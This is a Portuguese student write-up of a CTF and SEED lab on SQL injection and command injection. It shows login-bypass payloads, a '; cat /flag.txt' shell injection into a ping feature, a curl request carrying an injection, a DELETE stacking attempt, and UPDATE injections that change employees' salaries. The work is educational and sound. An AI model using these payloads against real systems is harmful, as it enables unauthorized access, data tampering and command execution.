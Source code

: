 # CTF 8 #

**Desafio 1** 

Neste desafio, é nos pedido que façamos login no servidor web como admin. Para tal utilizamos um ataque do tipo _SQL INJECTION_ em que o utilizador, com o controlo do input, consegue colocar código malicioso em declarações SQL.

Analisando a forma como o servidor comunica com a base de dados, verificamos que a interrogação feita é a seguinte: 
``` sql
SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'
```
onde $username e $password são os parâmetros que escrevemos no input.

Escrevendo o seguinte no input de username : 
```SQL
' or 1=1--
```
A declaração SQL será a seguinte: 
```sql
SELECT username FROM user WHERE username = '' or 1=1  -- ' AND password = '".$password."'
```

Como `1 = 1` é sempre avaliado como `TRUE`, a declaração SQL acima irá retornar TODOS os usernames na tabela `user`.

O restante pedaço do input é usado para ignorar tudo o que à sua frente, uma vez que `--` delimita o inicio de um comentário em SQL. Deste modo, não intressa o input que colocamos em password, pois será ignorado pela base de dados.

**Desafio 2** 

Neste desafio, ao contrário do primeiro, não temos acesso ao código-fonte da aplicação web estando por isso perante uma análise black-box. Explorando a aplicação, verificamos que, mesmo sem login, um utilizador consegue dar `ping` a um host. Analisando a forma como esta funcionalidade está implementada, verificamos que ela usa o utilitário `ping` de Linux, e, dessa forma, é implementada desta forma: `ping <input do utilizador>`.

Ora, uma vez que o utilizador controla o input, estamos perante uma vulnerabilidade enorme uma vez qualquer utilizador na web pode executar comandos na consola, colocando o seguinte no input: `; <comando malicioso>`. Colocamos `;` para finalizar o comando atual `ping` e a seguir colocamos o nosso código que pretendemos executar. Obs: podiamos também fazer algo do tipo: `ctf-fsi.fe.up.pt; <comando malicioso>`.

Para obter a flag, basta colocar o seguinte no input: 
`; cat /flag.txt`. 


# Tarefas da semana 8#

**Task 1: Get Familiar with SQL Statements**

O principal objetivo desta tarefa é que os alunos se familiarizem com comandos `SQL` e que abram uma shell no container que contém a database MySQL.
É-nos também pedido para imprimir as informações sobre uma das pessoas presentes na base de dados, a Alice. Tal pode ser feito com o comando: 

```sql
select * from credential where name='Alice';
```
Este comando imprime todas as colunas presentes na tabela -> `*`, cuja linha corresponde à Alice -> `where name= 'Alice'`. `credential` é o nome dessa tabela

```sql
mysql> select * from credential where name='Alice';
```
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
|----|-------|-------|--------|-------|----------|-------------|---------|-------|----------|------------------------------------------|
|  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |

**Task 2: SQL Injection Attack on SELECT Statement.**

Nesta tarefa, o nosso objetivo, como atacante, é conseguir fazer login na aplicação web. Ora, uma vez que não temos as crendencias necessárias, vamos recorrer a um ataque do tipo `SQL Injection`. 

**Task 2.1: SQL Injection Attack from webpage.**

Usando a interface da aplicação web, é-nos pedido que façamos login como administrador. Ora, as únicas informações que temos dele é que o seu username é `admin`. Deste modo, para conseguir obter as informações de todos os funcionários, é necessário fazermos o seguinte:

No campo dedicado ao username, colocamos o seguinte: `admin' #`  
Deste modo, a interrogação SQL será a seguinte: 
```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'admin' # and Password=' ';
```
E o resultado da interrogação são todas as tabelas relativas aos funcionários:
![Tabela 1](Week%208/task%202.1.png)

(`#` tem o mesmo efeito que `--`, sendo outro maneira de introduzir comentários em SQL)

No campo dedicado à password, não intressa o que colocamos visto que será ignorado por ser um comentário.

**Task 2.2: SQL Injection Attack from command line.**

Nesta tarefa é-nos pedido que façamos outra vez a tarefa anterior, desta vez usando o terminal, em vez da interface do website.
O comando que repete o processo observado acima é o seguinte:

`curl 'www.seed-server.com/unsafe_home.php?username=admin%27%20%23'`
- %27 -> Codificação HTML de `'` ;
- %20 -> Codificação HTML de ` ` ;
- %23 -> Codificação HTML de `#`;

Em baixo encontra-se um pequeno excerto do resultado do comando acima. A versão completa pode ser consultada [aqui](https://git.fe.up.pt/fsi/fsi2122/l04g02/-/blob/main/Week%208/task%202.2.html) 
```html
<thead class='thead-dark'>
    <tr>
        <th scope='col'>Username</th>
        <th scope='col'>EId</th>
        <th scope='col'>Salary</th>
        <th scope='col'>Birthday</th>
        <th scope='col'>SSN</th>
        <th scope='col'>Nickname</th>
        <th scope='col'>Email</th>
        <th scope='col'>Address</th>
        <th scope='col'>Ph. Number</th>
    </tr>
</thead>
    <tbody>
        <tr>
            <th scope='row'> Alice</th>
            <td>10000</td>
            <td>20000</td>
            <td>9/20</td>
            <td>10211002</td>
            <td></td>
            <td></td>
            <td></td>
            <td></td>
        </tr>
    ...
```
Ora, isto é nada mais do que o código html do que vimos quando fizemos o ataque pela interface web na tarefa anterior.


**Task 2.3: Append a new SQL statement.**

Nesta tarefa é-nos pedido para tentar introduzir dois comandos SQL na página de login. Isto pode ser alcançado com o uso de `;`, que separa os comandos SQL que pretendemos introduzir. Um exemplo seria o seguinte:

`'1=1; Delete from credential where name='Alice'; #`  

Contudo, verificamos que existem contramedidas de segurança ativas que impedem a realização de tal, pois é gerado o seguinte erro:

```
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to user near '1=1; Delete from credential where name='Alice'; #` ...] 
```

A contramedida impede que façamos _append_ de vários comandos SQL, verificando se existe algum caratér do tipo `;` no que é enviado pelo utilizador. 


**Task 3: SQL Injection Attack on UPDATE Statement.**

**Task 3.1: Modify your own salary**

Nesta tarefa é-nos pedido que modifiquemos o nosso próprio salário (Alice). Para tal, podemos fazer o seguinte:
1. Fazer login como Alice utilizando o seguinte comando: `alice' #`
2. Verificar o salário da Alice antes de o alterar: 
![task 3.1 before](Week%208/task%203.1%20before.png) 
3. Editar o perfil da Alice, mais especificamente o seu nickname, colocando um dos seguintes comandos: 
- `', salary=50000 where SSN=10211002; #`  
- `', salary=50000 where name='alice'; #`

O primeiro input resulta no seguinte comando SQL: 
```sql
UPDATE credential SET
nickname = ' ', salary = '50000',
WHERE SNN=10211002; -- email='$input_email', address='$input_address', Password='$hashed_pwd', PhoneNumber='$input_phonenumber' WHERE ID=$id;
```
(`#`tem o mesmo efeito que `--`, apenas estamos a colocar `--` para ficar mais legível uma vez que o _markdown_ não assume `#` como sendo um comentário)

O segundo input resulta no seguinte comando SQL: 
```sql
UPDATE credential SET
nickname = ' ', salary = '50000',
WHERE name='Alice'; -- email='$input_email', address='$input_address', Password='$hashed_pwd', PhoneNumber='$input_phonenumber' WHERE ID=$id;
```

4. Verificar que a alteração foi bem sucedida:
![task 3.1 after](Week 8/task%203.1%20after.png)  


**Task 3.2: Modify other people’ salary.**
Utilizando o mesmo raciocínio da tarefa anterior, podemos facilmente alterar o salário de outro funcionário, sem precisarmos de estar na sua conta.
Para tal, podemos fazer o seguinte:
1. (Opcional) Fazer login como Boby usando o comando `boby' #` para verificar qual o seu salário atual:
![task 3.2 before](Week%208/task%203.2%20before.png) 
2. Fazer login na nossa conta (Alice) da mesma forma que o fizemos na tarefa acima: `alice' #`.
3. Editar o perfil da Alice, mais especificamente o seu nickname, colocando o seguinte comando: 
`', salary=1 where name='boby'; #`
Isto resulta no seguinte comando SQL:
```sql
UPDATE credential SET
nickname = ' ', salary = '1',
WHERE name='boby'; -- email='$input_email', address='$input_address', Password='$hashed_pwd', PhoneNumber='$input_phonenumber' WHERE ID=$id;
```
4. Verificar que a alteração foi bem sucedida:
![task 3.2 after](Week%208/task%203.2%20after.png)  
